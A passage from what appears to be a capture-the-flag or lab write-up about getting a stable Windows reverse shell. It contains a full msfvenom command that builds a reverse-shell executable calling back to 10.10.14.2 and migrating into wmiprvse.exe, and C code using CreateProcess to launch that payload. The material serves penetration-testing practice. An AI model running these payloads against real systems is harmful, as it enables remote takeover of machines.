 ```
                TRUE,                                                           // Set handle inheritance to TRUE
                0,                                                              // No creation flags
                NULL,                                                           // Use parent's environment block
                NULL,                                                           // Use parent's starting directory
                &startupInformation[0],                                         // Pointer to STARTUPINFO structure
                &processInformation[0]                                          // Pointer to PROCESS_INFORMATION structure
        );
}

```

The third method I tried involves using `msfvenom` to generate a reverse shell binary. When I tested with staged and stageless payloads, the result is still that the session dies upon connecting back to us. Even when testing with metasploit's `multi/handler` instead of netcat. After some playing with some options, I found that setting `PrependMigrate` to `true` somewhat fixes the issue.


`msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.2 lport=4445 prependmigrate=true prependmigrateproc=wmiprvse.exe -f exe -o revshell.exe`
```
BOOL WINAPI CreateNewCmdProcess (STARTUPINFO *startupInformation, PROCESS_INFORMATION *processInformation)
{
        ZeroMemory (&startupInformation[0], sizeof (STARTUPINFO));
        startupInformation->cb = sizeof (STARTUPINFO);
        ZeroMemory (&processInformation[0], sizeof (PROCESS_INFORMATION));

        // Start the child process.
        return CreateProcess (
                NULL,                                                           // No module name (use command line)
                "c:\\windows\\Temp\\revshell.exe",   // Start cmd.exe
                NULL,                                                           // Process handle not inheritable
                NULL,                                                           // Thread handle not inheritable
                TRUE,                                                           // Set handle inheritance to TRUE
                0,                                                              // No creation flags
                NULL,                                                           // Use parent's environment block
                NULL,                                                           // Use parent's starting directory
                &startupInformation[0],                                         // Pointer to STARTUPINFO structure
                &processInformation[0]                                          // Pointer to PROCESS_INFORMATION structure
        );
}

```
